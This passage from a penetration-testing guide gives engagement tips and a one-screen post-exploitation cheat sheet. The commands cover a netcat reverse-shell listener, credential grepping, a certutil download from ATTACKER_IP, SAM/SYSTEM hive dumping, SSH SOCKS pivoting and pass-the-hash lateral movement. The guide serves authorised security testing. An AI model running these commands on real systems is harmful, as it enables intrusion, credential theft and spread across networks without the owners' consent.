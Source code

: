 
## Practical tips

- Confirm scope before persistence, password dumping, or lateral movement.
- Prefer native tools first; third-party binaries can trigger AV/EDR.
- Work from temp locations: Linux /tmp, Windows C:\Windows\Temp.
- Record exact commands and outcomes to accelerate reporting.
- Limit noisy scans; pivot + probe only what you need.
- Reuse credentials carefully; track where each set worked.
- Don’t clear logs unless the ROE explicitly allows it.
- Always clean up artifacts you introduced.


## Minimal cheat sheet (one-screen flow)

```
# Attacker prep
python3 -m http.server 8000
rlwrap -cAr nc -lvnp 4444

# Stabilize shell (Linux)
python3 -c 'import pty; pty.spawn("/bin/bash")'; export TERM=xterm

# Linux enum
whoami; id; hostname -f; uname -a; cat /etc/os-release
ip -brief addr; ip route; ss -tulpn; ps auxww
sudo -l 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
getcap -r / 2>/dev/null
grep -R -nEi 'password|secret|token|key' /var/www /opt /home 2>/dev/null

# Windows enum
whoami /all
systeminfo & wmic qfe get HotFixID,InstalledOn
ipconfig /all & route print & arp -a
net users & net localgroup administrators
tasklist /v
reg query HKLM\...\Run & reg query HKCU\...\Run
findstr /si /m "password= pwd= connectionString= secret key=" C:\*.txt C:\*.ini C:\*.config C:\inetpub\wwwroot\*.config

# Transfer tools to Windows
certutil -urlcache -split -f http://ATTACKER_IP:8000/winPEASx64.exe C:\Windows\Temp\winPEASx64.exe

# SAM/SYSTEM dump (Windows, admin)
reg save HKLM\SAM C:\Windows\Temp\SAM.save
reg save HKLM\SYSTEM C:\Windows\Temp\SYSTEM.save
# Attacker: secretsdump.py -sam SAM.save -system SYSTEM.save LOCAL

# Pivot via SSH SOCKS
ssh -i id_rsa -N -D 1080 user@PIVOT_IP
# proxychains ... through 127.0.0.1:1080

# Lateral movement (examples)
wmiexec.py DOMAIN/USER@TARGET_IP
psexec.py DOMAIN/USER@TARGET_IP -hashes LMHASH:NTHASH

# Cleanup
# Remove tools, dumps, tasks, registry entries you created
```
